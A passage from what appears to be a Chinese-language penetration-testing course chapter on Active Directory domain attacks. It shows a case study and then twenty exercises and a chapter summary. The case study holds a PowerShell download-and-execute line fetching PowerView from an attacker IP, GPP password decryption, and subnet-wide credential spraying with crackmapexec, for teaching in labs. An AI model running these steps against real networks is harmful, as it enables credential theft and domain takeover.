# 使用PowerView的Get-GPPPassword
IEX (New-Object Net.WebClient).DownloadString("http://攻击者IP/PowerView.ps1")
Get-GPPPassword
```

找到了！
在一个GPO的Groups.xml中，
有一个本地管理员账户的密码。

```
UserName    : Administrator
CPassword   : ...
NewName     :
Changed     : 2020-01-15
FileName    : Groups.xml
GPODisplayName : Server Local Admin Policy
```

**第五步：解密密码**

```bash
gpp-decrypt <cpassword>
```

解密出了管理员密码：`Adm1nP@ssw0rd!`

**第六步：验证密码**

```bash
# 使用CME验证
crackmapexec smb 192.168.1.0/24 -u administrator -p 'Adm1nP@ssw0rd!'
```

发现这个密码
是很多服务器的本地管理员密码。

**第七步：登录服务器，继续渗透**

选择一台服务器登录，
然后继续内网信息收集、
横向移动，
最终拿下了整个域。

### 经验总结
1. GPP密码是获取初始访问的好方法
2. 很多企业还存在旧的GPP密码
3. 本地管理员密码复用是常见问题
4. 信息收集要仔细，突破口可能在细节中

---

## ✏️ 习题（20道）

### 一、选择题（5题）

1. 以下哪个工具可以用来收集域内信息并生成可视化攻击路径？
   - A. Mimikatz
   - B. BloodHound
   - C. Metasploit
   - D. Cobalt Strike

2. 如果一台机器配置了非约束委派，攻击者可以利用它做什么？
   - A. 直接获取域控权限
   - B. 获取访问该机器用户的TGT
   - C. 修改所有用户的密码
   - D. 关闭杀毒软件

3. DCSync攻击利用的是什么协议？
   - A. SMB协议
   - B. LDAP协议
   - C. 目录复制服务（DRS）协议
   - D. Kerberos协议

4. Zerologon漏洞（CVE-2020-1472）的危害是什么？
   - A. 可以远程执行代码
   - B. 可以重置域控机器账户密码
   - C. 可以绕过防火墙
   - D. 可以关闭杀毒软件

5. GPP密码存储在哪里？
   - A. 注册表中
   - B. SYSVOL共享的XML文件中
   - C. NTDS.dit中
   - D. 本地SAM中

### 二、填空题（5题）

6. PowerView中获取所有域用户的命令是 __________。

7. SharpHound收集所有信息的命令参数是 __________。

8. 委派的三种类型分别是：非约束委派、__________、基于资源的约束委派。

9. NTLM中继攻击中，常用的配合工具是 Responder 和 __________。

10. PrintNightmare漏洞出在Windows的 __________ 服务中。

### 三、简答题（5题）

11. 简述DCSync攻击的原理和利用条件。

12. 什么是基于资源的约束委派（RBCD）攻击？简述其攻击步骤。

13. 简述NTLM Relay攻击的原理和前提条件。

14. 什么是AdminSDHolder？它为什么可以用来做权限维持？

15. 简述AD CS攻击中ESC1的原理。

### 四、实操题（5题）

16. 搭建一个域环境，使用PowerView收集域内用户、计算机、组信息。

17. 使用SharpHound收集域内信息，导入BloodHound，查找从普通用户到域管理员的最短路径。

18. 配置一个非约束委派的机器，使用Printer Bug + Rubeus 获取目标机器的TGT。

19. 使用GPO攻击实验：给一个普通用户修改GPO的权限，利用SharpGPOAbuse在目标机器上执行命令。

20. 在实验环境中演示NTLM Relay攻击：使用Responder + ntlmrelayx 获取目标机器的权限。

---

::: tip 本章小结
这一章内容非常多，
涵盖了域渗透中最常用的攻击方法。

重点回顾：

1. **信息收集** - PowerView、ADModule、BloodHound
2. **域管定位** - 会话、登录用户、BloodHound
3. **GPO攻击** - 修改GPO、GPP密码
4. **委派攻击** - 非约束、约束、RBCD
5. **DCSync/DCShadow** - 复制数据、隐蔽修改
6. **NTLM Relay** - 中继认证
7. **经典漏洞** - Zerologon、PrintNightmare
8. **认证胁迫** - PetitPotam、Printer Bug
9. **AD CS攻击** - 证书模板配置错误
10. **AdminSDHolder** - 权限维持

域渗透的攻击方法很多，
但核心都是围绕着
**权限、凭据、配置错误**
这几点展开的。

建议大家多动手实验，
把这些攻击方法都练熟。

下一章是高级篇的最后一章，
我们会对整个域渗透模块
和高级篇做一个总结。

加油！
:::
